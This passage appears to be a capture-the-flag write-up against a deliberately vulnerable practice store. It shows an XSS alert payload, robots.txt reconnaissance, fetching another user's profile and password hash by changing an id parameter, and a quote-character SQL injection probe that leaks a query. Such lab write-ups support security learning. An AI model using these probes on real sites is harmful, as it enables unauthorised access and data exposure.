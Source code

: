 ```
<script>alert(1)</script>
```

.. and we see a pop up box which shows our code was executed!

```
CHALLENGE COMPLETED: <script>alert("XSS on Product Search");</script>: 200 points
```

### ROBOTS.TXT

Inspecting the `robots.txt` file for the site..

```
http://34-222-117-67-shred.vulnerablesites.net/Shred/robots.txt

User-agent: *
Disallow: /user_profile
Allow: /credits
```

.. we find discover two new directories..

```
http://34-222-117-67-shred.vulnerablesites.net/Shred/credits
http://34-222-117-67-shred.vulnerablesites.net/Shred/user_profile
```

Loading the `credits` page gets us some points. Loading `user_profile` gives
us the following error message:

```
{"profile":{"error":"invalid user id"}}
```

```
CHALLENGE COMPLETED: Show of Appreciation (View the Credits Page): 10
```

```
http://34-222-117-67-shred.vulnerablesites.net/Shred/user_profile?id=235861
{"profile":{"username":"test","email":"test@test.com","password_hash":"a94a8fe5ccb19ba61c4c0873d391e987982fbbd3","user_id":"235861"}}
```

### SQL INJECTION

Logging out of the account and attempting to test some SQL injection against
our login form by supplying `\'` as input, we get..

```
Error executing SQL query: SELECT * FROM Users WHERE username = '\\'' AND passhash = '6acdcb3cb13891c3138d19ef2799d56a151c9bbf'; 

Details: com.fjordengineering.store.util.SecureSQLException: SELECT * FROM Users WHERE username = '\\'' AND passhash = '6acdcb3cb13891c3138d19ef2799d56a151c9bbf';
```

As we receive the following points..

